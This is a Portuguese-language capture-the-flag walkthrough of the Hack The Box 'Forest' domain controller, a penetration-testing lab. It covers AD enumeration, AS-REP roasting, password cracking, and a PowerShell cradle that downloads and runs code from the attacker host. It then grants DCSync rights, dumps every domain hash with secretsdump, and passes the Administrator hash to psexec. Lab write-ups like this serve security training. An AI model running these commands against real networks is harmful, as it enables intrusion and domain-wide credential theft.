

# Forest

---

[https://app.hackthebox.com/machines/Forest](https://app.hackthebox.com/machines/Forest)

[https://0xdf.gitlab.io/2020/03/21/htb-forest.html](https://0xdf.gitlab.io/2020/03/21/htb-forest.html)

# Scanning

- `ports=$(sudo nmap -p- -Pn --min-rate=1000 -T4 10.10.10.161 | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//) && sudo nmap -sC -sV -p $ports 10.10.10.161`
    
    ```powershell
    PORT      STATE SERVICE      VERSION
    53/tcp    open  domain       Simple DNS Plus
    88/tcp    open  kerberos-sec Microsoft Windows Kerberos (server time: 2022-10-18 12:52:23Z)
    135/tcp   open  msrpc        Microsoft Windows RPC
    139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
    389/tcp   open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
    445/tcp   open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds (workgroup: HTB)
    464/tcp   open  kpasswd5?
    593/tcp   open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
    636/tcp   open  tcpwrapped
    3268/tcp  open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
    3269/tcp  open  tcpwrapped
    5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
    |_http-server-header: Microsoft-HTTPAPI/2.0
    |_http-title: Not Found
    9389/tcp  open  mc-nmf       .NET Message Framing
    47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
    |_http-server-header: Microsoft-HTTPAPI/2.0
    |_http-title: Not Found
    49664/tcp open  msrpc        Microsoft Windows RPC
    49665/tcp open  msrpc        Microsoft Windows RPC
    49666/tcp open  msrpc        Microsoft Windows RPC
    49667/tcp open  msrpc        Microsoft Windows RPC
    49671/tcp open  msrpc        Microsoft Windows RPC
    49676/tcp open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
    49677/tcp open  msrpc        Microsoft Windows RPC
    49684/tcp open  msrpc        Microsoft Windows RPC
    49706/tcp open  msrpc        Microsoft Windows RPC
    49958/tcp open  msrpc        Microsoft Windows RPC
    Service Info: Host: FOREST; OS: Windows; CPE: cpe:/o:microsoft:windows
    
    Host script results:
    | smb2-time: 
    |   date: 2022-10-18T12:53:20
    |_  start_date: 2022-10-18T12:13:03
    |_clock-skew: mean: 2h26m48s, deviation: 4h02m30s, median: 6m48s
    | smb-os-discovery: 
    |   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
    |   Computer name: FOREST
    |   NetBIOS computer name: FOREST\x00
    |   Domain name: htb.local
    |   Forest name: htb.local
    |   FQDN: FOREST.htb.local
    |_  System time: 2022-10-18T05:53:16-07:00
    | smb2-security-mode: 
    |   3.1.1: 
    |_    Message signing enabled and required
    | smb-security-mode: 
    |   account_used: <blank>
    |   authentication_level: user
    |   challenge_response: supported
    |_  message_signing: required
    
    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    Nmap done: 1 IP address (1 host up) scanned in 81.27 seconds
    zsh: segmentation fault  sudo nmap -sC -sV -p $ports 10.10.10.161
    ```
    

Identificamos o domínio `htb.local`, então add no ***/etc/hosts***



---

## **DNS - UDP/TCP 53**

Eu posso resolver `htb.local` e `forest.htb.local` a partir deste servidor DNS:

- `dig @10.10.10.161 htb.local`
    
    ```powershell
    ; <<>> DiG 9.18.7-1-Debian <<>> @10.10.10.161 htb.local
    ; (1 server found)
    ;; global options: +cmd
    ;; Got answer:
    ;; WARNING: .local is reserved for Multicast DNS
    ;; You are currently testing what happens when an mDNS query is leaked to DNS
    ;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 52594
    ;; flags: qr aa rd ra; QUERY: 1, ANSWER: 1, AUTHORITY: 0, ADDITIONAL: 1
    
    ;; OPT PSEUDOSECTION:
    ; EDNS: version: 0, flags:; udp: 4000
    ; COOKIE: 8ac7922caa24baa7 (echoed)
    ;; QUESTION SECTION:
    ;htb.local.			IN	A
    
    ;; ANSWER SECTION:
    htb.local.		600	IN	A	10.10.10.161
    
    ;; Query time: 200 msec
    ;; SERVER: 10.10.10.161#53(10.10.10.161) (UDP)
    ;; WHEN: Tue Oct 18 08:55:52 EDT 2022
    ;; MSG SIZE  rcvd: 66
    ```
    
- `dig @10.10.10.161 forest.htb.local`
    
    ```powershell
    ; <<>> DiG 9.18.7-1-Debian <<>> @10.10.10.161 forest.htb.local
    ; (1 server found)
    ;; global options: +cmd
    ;; Got answer:
    ;; WARNING: .local is reserved for Multicast DNS
    ;; You are currently testing what happens when an mDNS query is leaked to DNS
    ;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 51580
    ;; flags: qr aa rd ra; QUERY: 1, ANSWER: 1, AUTHORITY: 0, ADDITIONAL: 1
    
    ;; OPT PSEUDOSECTION:
    ; EDNS: version: 0, flags:; udp: 4000
    ; COOKIE: cb921396b8abdfab (echoed)
    ;; QUESTION SECTION:
    ;forest.htb.local.		IN	A
    
    ;; ANSWER SECTION:
    forest.htb.local.	3600	IN	A	10.10.10.161
    
    ;; Query time: 264 msec
    ;; SERVER: 10.10.10.161#53(10.10.10.161) (UDP)
    ;; WHEN: Tue Oct 18 08:57:09 EDT 2022
    ;; MSG SIZE  rcvd: 73
    ```
    

Tentei fazer uma transferência de zona, mas **sem sucesso!**

- `dig axfr @10.10.10.161 htb.local`
    
    ```powershell
    ; <<>> DiG 9.18.7-1-Debian <<>> axfr @10.10.10.161 htb.local
    ; (1 server found)
    ;; global options: +cmd
    ; Transfer failed.
    ```
    

## **SMB - TCP 445**

Tentei enumerar com `smbmap` e `smbclient` para listar compartilhamentos sem senha, mas **sem sucesso!**

- `smbmap -H 10.10.10.161`
    
    ```powershell
    [+] IP: 10.10.10.161:445	Name: htb.local
    ```
    
- `smbclient -N -L [//10.10.10.161](https://10.10.10.161/)`
    
    ```powershell
    Anonymous login successful
    
    	Sharename       Type      Comment
    	---------       ----      -------
    SMB1 disabled -- no workgroup available
    ```
    

## **RPC - TCP 445**

Enumeraremos o RPC 

`rpcclient -U "" -N 10.10.10.161`

Listar os usuários:

- `enumdomusers`
    
    ```powershell
    user:[Administrator] rid:[0x1f4]
    user:[Guest] rid:[0x1f5]
    user:[krbtgt] rid:[0x1f6]
    user:[DefaultAccount] rid:[0x1f7]
    user:[$331000-VK4ADACQNUCA] rid:[0x463]
    user:[SM_2c8eef0a09b545acb] rid:[0x464]
    user:[SM_ca8c2ed5bdab4dc9b] rid:[0x465]
    user:[SM_75a538d3025e4db9a] rid:[0x466]
    user:[SM_681f53d4942840e18] rid:[0x467]
    user:[SM_1b41c9286325456bb] rid:[0x468]
    user:[SM_9b69f1b9d2cc45549] rid:[0x469]
    user:[SM_7c96b981967141ebb] rid:[0x46a]
    user:[SM_c75ee099d0a64c91b] rid:[0x46b]
    user:[SM_1ffab36a2f5f479cb] rid:[0x46c]
    user:[HealthMailboxc3d7722] rid:[0x46e]
    user:[HealthMailboxfc9daad] rid:[0x46f]
    user:[HealthMailboxc0a90c9] rid:[0x470]
    user:[HealthMailbox670628e] rid:[0x471]
    user:[HealthMailbox968e74d] rid:[0x472]
    user:[HealthMailbox6ded678] rid:[0x473]
    user:[HealthMailbox83d6781] rid:[0x474]
    user:[HealthMailboxfd87238] rid:[0x475]
    user:[HealthMailboxb01ac64] rid:[0x476]
    user:[HealthMailbox7108a4e] rid:[0x477]
    user:[HealthMailbox0659cc1] rid:[0x478]
    user:[sebastien] rid:[0x479]
    user:[lucinda] rid:[0x47a]
    user:[svc-alfresco] rid:[0x47b]
    user:[andy] rid:[0x47e]
    user:[mark] rid:[0x47f]
    user:[santi] rid:[0x480]
    ```
    

Listar os grupos:

- `enumdomgroups`
    
    ```powershell
    group:[Enterprise Read-only Domain Controllers] rid:[0x1f2]
    group:[Domain Admins] rid:[0x200]
    group:[Domain Users] rid:[0x201]
    group:[Domain Guests] rid:[0x202]
    group:[Domain Computers] rid:[0x203]
    group:[Domain Controllers] rid:[0x204]
    group:[Schema Admins] rid:[0x206]
    group:[Enterprise Admins] rid:[0x207]
    group:[Group Policy Creator Owners] rid:[0x208]
    group:[Read-only Domain Controllers] rid:[0x209]
    group:[Cloneable Domain Controllers] rid:[0x20a]
    group:[Protected Users] rid:[0x20d]
    group:[Key Admins] rid:[0x20e]
    group:[Enterprise Key Admins] rid:[0x20f]
    group:[DnsUpdateProxy] rid:[0x44e]
    group:[Organization Management] rid:[0x450]
    group:[Recipient Management] rid:[0x451]
    group:[View-Only Organization Management] rid:[0x452]
    group:[Public Folder Management] rid:[0x453]
    group:[UM Management] rid:[0x454]
    group:[Help Desk] rid:[0x455]
    group:[Records Management] rid:[0x456]
    group:[Discovery Management] rid:[0x457]
    group:[Server Management] rid:[0x458]
    group:[Delegated Setup] rid:[0x459]
    group:[Hygiene Management] rid:[0x45a]
    group:[Compliance Management] rid:[0x45b]
    group:[Security Reader] rid:[0x45c]
    group:[Security Administrator] rid:[0x45d]
    group:[Exchange Servers] rid:[0x45e]
    group:[Exchange Trusted Subsystem] rid:[0x45f]
    group:[Managed Availability Servers] rid:[0x460]
    group:[Exchange Windows Permissions] rid:[0x461]
    group:[ExchangeLegacyInterop] rid:[0x462]
    group:[$D31000-NSEL5BRJ63V7] rid:[0x46d]
    group:[Service Accounts] rid:[0x47c]
    group:[Privileged IT Accounts] rid:[0x47d]
    group:[test] rid:[0x13ed]
    ```
    

Vamos olhar os membros do grupo Domain Admin:

- `querygroup 0x200`
    
    ```powershell
    Group Name:	Domain Admins
    	Description:	Designated administrators of the domain
    	Group Attribute:7
    	Num Members:1
    ```
    
- `querygroupmem 0x200`
    
    ```powershell
    rid:[0x1f4] attr:[0x7]
    ```
    
- `queryuser 0x1f4`
    
    ```powershell
    User Name   :	Administrator
    	Full Name   :	Administrator
    	Home Drive  :	
    	Dir Drive   :	
    	Profile Path:	
    	Logon Script:	
    	Description :	Built-in account for administering the computer/domain
    	Workstations:	
    	Comment     :	
    	Remote Dial :
    	Logon Time               :	Tue, 18 Oct 2022 08:13:48 EDT
    	Logoff Time              :	Wed, 31 Dec 1969 19:00:00 EST
    	Kickoff Time             :	Wed, 31 Dec 1969 19:00:00 EST
    	Password last set Time   :	Mon, 30 Aug 2021 20:51:59 EDT
    	Password can change Time :	Tue, 31 Aug 2021 20:51:59 EDT
    	Password must change Time:	Wed, 13 Sep 30828 22:48:05 EDT
    	unknown_2[0..31]...
    	user_rid :	0x1f4
    	group_rid:	0x201
    	acb_info :	0x00000010
    	fields_present:	0x00ffffff
    	logon_divs:	168
    	bad_password_count:	0x00000000
    	logon_count:	0x00000061
    	padding1[0..7]...
    	logon_hrs[0..21]...
    ```
    

O grupo ***`Domain Admin`*** tem apenas 1 membro, que é o ***`Administrator`.***

---

## **AS-REP Roasting**

Agora, temos a lista de usuários do alvo.

Colocaremos a lista num arquivo e tentaremos o Atttack As-Rep Roasting.

- `cat users`
    
    ```powershell
    sebastien
    lucinda
    svc-alfresco
    andy
    mark
    santi
    ```
    
- `for user in $(cat users); do impacket-GetNPUsers -no-pass -dc-ip 10.10.10.161 htb/${user} | grep -v Impacket; done`
    
    ```powershell
    [*] Getting TGT for sebastien
    [-] User sebastien doesn't have UF_DONT_REQUIRE_PREAUTH set
    
    [*] Getting TGT for lucinda
    [-] User lucinda doesn't have UF_DONT_REQUIRE_PREAUTH set
    
    [*] Getting TGT for svc-alfresco
    $krb5asrep$23$svc-alfresco@HTB:754aaeb7cf647e5365424893ee7e7345$1f45e994ceeda5dba738917f2d1f1103eadc8aab035b7177f5ebcaa4ace7ab4311966d7a2bebe181f5dc0e51fd24286b24cb2493a1f02c6fc5cfbd050627089ea8517c1cd3256b7b94d42acc4e54a98b4e336dc175f356a34394b843e82701e822f748a8599fc6d641a5cfa3ebdaeb5f04ace7a97a31b2993c0628c766fe7f2e7358fbeeee130b7c55579f6bb9006949a9f4db273fd05f845ab359b7799624297b4be55b4eab01a5d350f012fc49829e01db5b64fad03409ab7f34cf8c19f538ea9868751d2dc3739fa0d4b2b0d991b0c145bde8f925bbdbec205fc7a626b0b8
    
    [*] Getting TGT for andy
    [-] User andy doesn't have UF_DONT_REQUIRE_PREAUTH set
    
    [*] Getting TGT for mark
    [-] User mark doesn't have UF_DONT_REQUIRE_PREAUTH set
    
    [*] Getting TGT for santi
    [-] User santi doesn't have UF_DONT_REQUIRE_PREAUTH set
    ```
    

### Quebrando o Hash

`hashcat -m 18200 hash.txt /usr/share/wordlists/rockyou.txt --force`

Senha do usuário **svc-alfresco** encontrada: **s3rvice**

---

## **Pegando Shell**

### Psexec

`impacket-psexec htb.local/svc-alfresco:s3rvice@10.10.10.161`

***Sem sucesso!***

### WinRM

`evil-winrm -i 10.10.10.161 -u svc-alfresco -p s3rvice`

***Sucesso!***

### HABEMUSS!!!


---

## Melhorando o shell

Usamos o powercat para melhorar o shell:

`IEX(New-Object System.Net.WebClient).DownloadString('[http://10.10.14.2/powercat.ps1](http://10.10.14.2/powercat.ps1)'`

## BloodHound

Baixando o sharphound pro alvo:

`powershell (New-Object System.Net.WebClient).DownloadFile('http://10.10.14.2//sharphound.exe','c:\\windows\\tasks\\sharphound.exe')`

Executando no alvo:

`c:\\windows\\tasks\\sharphound.exe`

Transferindo o resultado pro kali:

`impacket-smbserver samba . -smb2support`

`copy 20221018071247_BloodHound.zip \\10.10.14.2\\samba`

Analisando o resultado:

Temos o caminho do sucesso na seção `Find Shortest Paths to Domain Admins`


## Priv Esc

### **Entrando no grupo de permissões do Exchange Windows**

Vamos inserir o usuário ***svc-alfresco*** ao grupo ***Exchange Windows Permissions:***

`net group "Exchange Windows Permissions" svc-alfresco /add /domain`

ou podemos usar este comando:

```powershell
$SecPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('htb\svc-alfresco', $SecPassword)
Add-DomainGroupMember -Identity 'Exchange Windows Permissions' -Members 'svc-alfresco' -Credential $Cred
```

Verificamos que o usuário foi inserido com sucesso.

- `net group "Exchange Windows Permissions"`
    
    ```powershell
    Members
    
    -------------------------------------------------------------------------------
    svc-alfresco             
    The command completed successfully.
    ```
    

Porém, após um tempo o usuário é apagado do grupo.

Então, faremos um comando só que adicionará o usuário ao grupo e depois concederá privilégios DCSync.

```powershell
Add-DomainGroupMember -Identity 'Exchange Windows Permissions' -Members svc-alfresco; 
$username = "htb\svc-alfresco"; 
$password = "s3rvice"; 
$secstr = New-Object -TypeName System.Security.SecureString; 
$password.ToCharArray() | ForEach-Object {$secstr.AppendChar($_)}; 
$cred = new-object -typename System.Management.Automation.PSCredential -argumentlist $username, $secstr; 
Add-DomainObjectAcl -Credential $Cred -PrincipalIdentity 'svc-alfresco' -TargetIdentity 'HTB.LOCAL\Domain Admins' -Rights DCSync
```

Agora, estamos no grupo `Exchange Windows Permissions`  e podemos executar um ataque DCSync com o `mimikatz` ou `secretdump`. Usaremos o segundo.

- `impacket-secretsdump [svc-alfresco:s3rvice@10.10.10.161](mailto:svc-alfresco:s3rvice@10.10.10.161)`
    
    ```powershell
    Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation
    
    [-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
    [*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
    [*] Using the DRSUAPI method to get NTDS.DIT secrets
    htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6:::
    Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
    krbtgt:502:aad3b435b51404eeaad3b435b51404ee:819af826bb148e603acb0f33d17632f8:::
    DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
    htb.local\$331000-VK4ADACQNUCA:1123:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
    htb.local\SM_2c8eef0a09b545acb:1124:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
    htb.local\SM_ca8c2ed5bdab4dc9b:1125:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
    htb.local\SM_75a538d3025e4db9a:1126:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
    htb.local\SM_681f53d4942840e18:1127:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
    htb.local\SM_1b41c9286325456bb:1128:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
    htb.local\SM_9b69f1b9d2cc45549:1129:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
    htb.local\SM_7c96b981967141ebb:1130:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
    htb.local\SM_c75ee099d0a64c91b:1131:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
    htb.local\SM_1ffab36a2f5f479cb:1132:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
    htb.local\HealthMailboxc3d7722:1134:aad3b435b51404eeaad3b435b51404ee:4761b9904a3d88c9c9341ed081b4ec6f:::
    htb.local\HealthMailboxfc9daad:1135:aad3b435b51404eeaad3b435b51404ee:5e89fd2c745d7de396a0152f0e130f44:::
    htb.local\HealthMailboxc0a90c9:1136:aad3b435b51404eeaad3b435b51404ee:3b4ca7bcda9485fa39616888b9d43f05:::
    htb.local\HealthMailbox670628e:1137:aad3b435b51404eeaad3b435b51404ee:e364467872c4b4d1aad555a9e62bc88a:::
    htb.local\HealthMailbox968e74d:1138:aad3b435b51404eeaad3b435b51404ee:ca4f125b226a0adb0a4b1b39b7cd63a9:::
    htb.local\HealthMailbox6ded678:1139:aad3b435b51404eeaad3b435b51404ee:c5b934f77c3424195ed0adfaae47f555:::
    htb.local\HealthMailbox83d6781:1140:aad3b435b51404eeaad3b435b51404ee:9e8b2242038d28f141cc47ef932ccdf5:::
    htb.local\HealthMailboxfd87238:1141:aad3b435b51404eeaad3b435b51404ee:f2fa616eae0d0546fc43b768f7c9eeff:::
    htb.local\HealthMailboxb01ac64:1142:aad3b435b51404eeaad3b435b51404ee:0d17cfde47abc8cc3c58dc2154657203:::
    htb.local\HealthMailbox7108a4e:1143:aad3b435b51404eeaad3b435b51404ee:d7baeec71c5108ff181eb9ba9b60c355:::
    htb.local\HealthMailbox0659cc1:1144:aad3b435b51404eeaad3b435b51404ee:900a4884e1ed00dd6e36872859c03536:::
    htb.local\sebastien:1145:aad3b435b51404eeaad3b435b51404ee:96246d980e3a8ceacbf9069173fa06fc:::
    htb.local\lucinda:1146:aad3b435b51404eeaad3b435b51404ee:4c2af4b2cd8a15b1ebd0ef6c58b879c3:::
    htb.local\svc-alfresco:1147:aad3b435b51404eeaad3b435b51404ee:9248997e4ef68ca2bb47ae4e6f128668:::
    htb.local\andy:1150:aad3b435b51404eeaad3b435b51404ee:29dfccaf39618ff101de5165b19d524b:::
    htb.local\mark:1151:aad3b435b51404eeaad3b435b51404ee:9e63ebcb217bf3c6b27056fdcb6150f7:::
    htb.local\santi:1152:aad3b435b51404eeaad3b435b51404ee:483d4c70248510d8e0acb6066cd89072:::
    FOREST$:1000:aad3b435b51404eeaad3b435b51404ee:17267b380cc15eaeddff28a7b39e888a:::
    EXCH01$:1103:aad3b435b51404eeaad3b435b51404ee:050105bb043f5b8ffc3a9fa99b5ef7c1:::
    [*] Kerberos keys grabbed
    htb.local\Administrator:aes256-cts-hmac-sha1-96:910e4c922b7516d4a27f05b5ae6a147578564284fff8461a02298ac9263bc913
    htb.local\Administrator:aes128-cts-hmac-sha1-96:b5880b186249a067a5f6b814a23ed375
    htb.local\Administrator:des-cbc-md5:c1e049c71f57343b
    krbtgt:aes256-cts-hmac-sha1-96:9bf3b92c73e03eb58f698484c38039ab818ed76b4b3a0e1863d27a631f89528b
    krbtgt:aes128-cts-hmac-sha1-96:13a5c6b1d30320624570f65b5f755f58
    krbtgt:des-cbc-md5:9dd5647a31518ca8
    htb.local\HealthMailboxc3d7722:aes256-cts-hmac-sha1-96:258c91eed3f684ee002bcad834950f475b5a3f61b7aa8651c9d79911e16cdbd4
    htb.local\HealthMailboxc3d7722:aes128-cts-hmac-sha1-96:47138a74b2f01f1886617cc53185864e
    htb.local\HealthMailboxc3d7722:des-cbc-md5:5dea94ef1c15c43e
    htb.local\HealthMailboxfc9daad:aes256-cts-hmac-sha1-96:6e4efe11b111e368423cba4aaa053a34a14cbf6a716cb89aab9a966d698618bf
    htb.local\HealthMailboxfc9daad:aes128-cts-hmac-sha1-96:9943475a1fc13e33e9b6cb2eb7158bdd
    htb.local\HealthMailboxfc9daad:des-cbc-md5:7c8f0b6802e0236e
    htb.local\HealthMailboxc0a90c9:aes256-cts-hmac-sha1-96:7ff6b5acb576598fc724a561209c0bf541299bac6044ee214c32345e0435225e
    htb.local\HealthMailboxc0a90c9:aes128-cts-hmac-sha1-96:ba4a1a62fc574d76949a8941075c43ed
    htb.local\HealthMailboxc0a90c9:des-cbc-md5:0bc8463273fed983
    htb.local\HealthMailbox670628e:aes256-cts-hmac-sha1-96:a4c5f690603ff75faae7774a7cc99c0518fb5ad4425eebea19501517db4d7a91
    htb.local\HealthMailbox670628e:aes128-cts-hmac-sha1-96:b723447e34a427833c1a321668c9f53f
    htb.local\HealthMailbox670628e:des-cbc-md5:9bba8abad9b0d01a
    htb.local\HealthMailbox968e74d:aes256-cts-hmac-sha1-96:1ea10e3661b3b4390e57de350043a2fe6a55dbe0902b31d2c194d2ceff76c23c
    htb.local\HealthMailbox968e74d:aes128-cts-hmac-sha1-96:ffe29cd2a68333d29b929e32bf18a8c8
    htb.local\HealthMailbox968e74d:des-cbc-md5:68d5ae202af71c5d
    htb.local\HealthMailbox6ded678:aes256-cts-hmac-sha1-96:d1a475c7c77aa589e156bc3d2d92264a255f904d32ebbd79e0aa68608796ab81
    htb.local\HealthMailbox6ded678:aes128-cts-hmac-sha1-96:bbe21bfc470a82c056b23c4807b54cb6
    htb.local\HealthMailbox6ded678:des-cbc-md5:cbe9ce9d522c54d5
    htb.local\HealthMailbox83d6781:aes256-cts-hmac-sha1-96:d8bcd237595b104a41938cb0cdc77fc729477a69e4318b1bd87d99c38c31b88a
    htb.local\HealthMailbox83d6781:aes128-cts-hmac-sha1-96:76dd3c944b08963e84ac29c95fb182b2
    htb.local\HealthMailbox83d6781:des-cbc-md5:8f43d073d0e9ec29
    htb.local\HealthMailboxfd87238:aes256-cts-hmac-sha1-96:9d05d4ed052c5ac8a4de5b34dc63e1659088eaf8c6b1650214a7445eb22b48e7
    htb.local\HealthMailboxfd87238:aes128-cts-hmac-sha1-96:e507932166ad40c035f01193c8279538
    htb.local\HealthMailboxfd87238:des-cbc-md5:0bc8abe526753702
    htb.local\HealthMailboxb01ac64:aes256-cts-hmac-sha1-96:af4bbcd26c2cdd1c6d0c9357361610b79cdcb1f334573ad63b1e3457ddb7d352
    htb.local\HealthMailboxb01ac64:aes128-cts-hmac-sha1-96:8f9484722653f5f6f88b0703ec09074d
    htb.local\HealthMailboxb01ac64:des-cbc-md5:97a13b7c7f40f701
    htb.local\HealthMailbox7108a4e:aes256-cts-hmac-sha1-96:64aeffda174c5dba9a41d465460e2d90aeb9dd2fa511e96b747e9cf9742c75bd
    htb.local\HealthMailbox7108a4e:aes128-cts-hmac-sha1-96:98a0734ba6ef3e6581907151b96e9f36
    htb.local\HealthMailbox7108a4e:des-cbc-md5:a7ce0446ce31aefb
    htb.local\HealthMailbox0659cc1:aes256-cts-hmac-sha1-96:a5a6e4e0ddbc02485d6c83a4fe4de4738409d6a8f9a5d763d69dcef633cbd40c
    htb.local\HealthMailbox0659cc1:aes128-cts-hmac-sha1-96:8e6977e972dfc154f0ea50e2fd52bfa3
    htb.local\HealthMailbox0659cc1:des-cbc-md5:e35b497a13628054
    htb.local\sebastien:aes256-cts-hmac-sha1-96:fa87efc1dcc0204efb0870cf5af01ddbb00aefed27a1bf80464e77566b543161
    htb.local\sebastien:aes128-cts-hmac-sha1-96:18574c6ae9e20c558821179a107c943a
    htb.local\sebastien:des-cbc-md5:702a3445e0d65b58
    htb.local\lucinda:aes256-cts-hmac-sha1-96:acd2f13c2bf8c8fca7bf036e59c1f1fefb6d087dbb97ff0428ab0972011067d5
    htb.local\lucinda:aes128-cts-hmac-sha1-96:fc50c737058b2dcc4311b245ed0b2fad
    htb.local\lucinda:des-cbc-md5:a13bb56bd043a2ce
    htb.local\svc-alfresco:aes256-cts-hmac-sha1-96:46c50e6cc9376c2c1738d342ed813a7ffc4f42817e2e37d7b5bd426726782f32
    htb.local\svc-alfresco:aes128-cts-hmac-sha1-96:e40b14320b9af95742f9799f45f2f2ea
    htb.local\svc-alfresco:des-cbc-md5:014ac86d0b98294a
    htb.local\andy:aes256-cts-hmac-sha1-96:ca2c2bb033cb703182af74e45a1c7780858bcbff1406a6be2de63b01aa3de94f
    htb.local\andy:aes128-cts-hmac-sha1-96:606007308c9987fb10347729ebe18ff6
    htb.local\andy:des-cbc-md5:a2ab5eef017fb9da
    htb.local\mark:aes256-cts-hmac-sha1-96:9d306f169888c71fa26f692a756b4113bf2f0b6c666a99095aa86f7c607345f6
    htb.local\mark:aes128-cts-hmac-sha1-96:a2883fccedb4cf688c4d6f608ddf0b81
    htb.local\mark:des-cbc-md5:b5dff1f40b8f3be9
    htb.local\santi:aes256-cts-hmac-sha1-96:8a0b0b2a61e9189cd97dd1d9042e80abe274814b5ff2f15878afe46234fb1427
    htb.local\santi:aes128-cts-hmac-sha1-96:cbf9c843a3d9b718952898bdcce60c25
    htb.local\santi:des-cbc-md5:4075ad528ab9e5fd
    FOREST$:aes256-cts-hmac-sha1-96:01ff0802d17a096d1efcaca3775c119ec6d7db7d5720ace3d433cb3b73e2ef0b
    FOREST$:aes128-cts-hmac-sha1-96:71e1f1ab91f3cf904d3465057ecd82f6
    FOREST$:des-cbc-md5:408c074c800b0d38
    EXCH01$:aes256-cts-hmac-sha1-96:1a87f882a1ab851ce15a5e1f48005de99995f2da482837d49f16806099dd85b6
    EXCH01$:aes128-cts-hmac-sha1-96:9ceffb340a70b055304c3cd0583edf4e
    EXCH01$:des-cbc-md5:8c45f44c16975129
    [*] Cleaning up...
    ```
    

Capturamos o hash do ***Administrator.***

Faremos um ataque PTH com PsExec:

`impacket-psexec [administrator@10.10.10.161](mailto:administrator@10.10.10.161) -hashes :32693b11e6aa90eb43d32c72a07ceea6`


# HABEMUS ROOT!!!

---

# Pegando a FLAG

`type C:\Users\svc-alfresco\Desktop\user.txt`

***8e0dc27733441c9e2ea809f3fd54c3f6***

`type C:\Users\Administrator\Desktop\root.txt`

***23157b04ca6de51181cce1533a572315***